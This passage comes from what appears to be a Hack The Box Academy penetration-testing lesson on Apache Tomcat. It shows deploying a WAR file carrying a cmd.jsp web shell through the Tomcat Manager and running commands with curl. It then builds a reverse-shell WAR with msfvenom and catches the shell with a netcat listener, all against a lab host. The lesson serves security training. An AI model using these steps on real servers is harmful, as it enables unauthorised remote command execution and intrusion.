   adding: cmd.jsp (deflated 81%)
</code></pre>
<p>Click on <code>Browse</code> to select the .war file and then click on <code>Deploy</code>.</p>
<p><img alt="image" src="https://academy.hackthebox.com/storage/modules/113/mgr_deploy.png"/></p>
<p>This file is uploaded to the manager GUI, after which the <code>/backup</code> application will be added to the table.</p>
<img class="website-screenshot" data-url="http://web01.inlanefreight.local:8180/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=54DA226F01ED3A0F5C3C3DC78EBAFFE7" src="/storage/modules/113/war_deployed.png"/>
<p>If we click on <code>backup</code>, we will get redirected to <code>http://web01.inlanefreight.local:8180/backup/</code> and get a <code>404 Not Found</code> error. We need to specify the <code>cmd.jsp</code> file in the URL as well. Browsing to <code>http://web01.inlanefreight.local:8180/backup/cmd.jsp</code> will present us with a web shell that we can use to run commands on the Tomcat server. From here, we could upgrade our web shell to an interactive reverse shell and continue. Like previous examples, we can interact with this web shell via the browser or using <code>cURL</code> on the command line. Try both!</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

&lt;HTML&gt;&lt;BODY&gt;
&lt;FORM METHOD="GET" NAME="myform" ACTION=""&gt;
&lt;INPUT TYPE="text" NAME="cmd"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
&lt;pre&gt;
Command: id&lt;BR&gt;
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

&lt;/pre&gt;
&lt;/BODY&gt;&lt;/HTML&gt;
</code></pre>
<p>To clean up after ourselves, we can go back to the main Tomcat Manager page and click the <code>Undeploy</code> button next to the <code>backups</code> application after, of course, noting down the file and upload location for our report, which in our example is <code>/opt/tomcat/apache-tomcat-10.0.10/webapps</code>. If we do an <code>ls</code> on that directory from our web shell, we'll see the uploaded <code>backup.war</code> file and the <code>backup</code> directory containing the <code>cmd.jsp</code> script and <code>META-INF</code> created after the application deploys. Clicking on <code>Undeploy</code> will typically remove the uploaded WAR archive and the directory associated with the application.</p>
<p>We could also use <code>msfvenom</code> to generate a malicious WAR file. The payload <a href="https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb">java/jsp_shell_reverse_tcp</a> will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war &gt; backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
</code></pre>
<p>Start a Netcat listener and click on <code>/backup</code> to execute the shell.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224
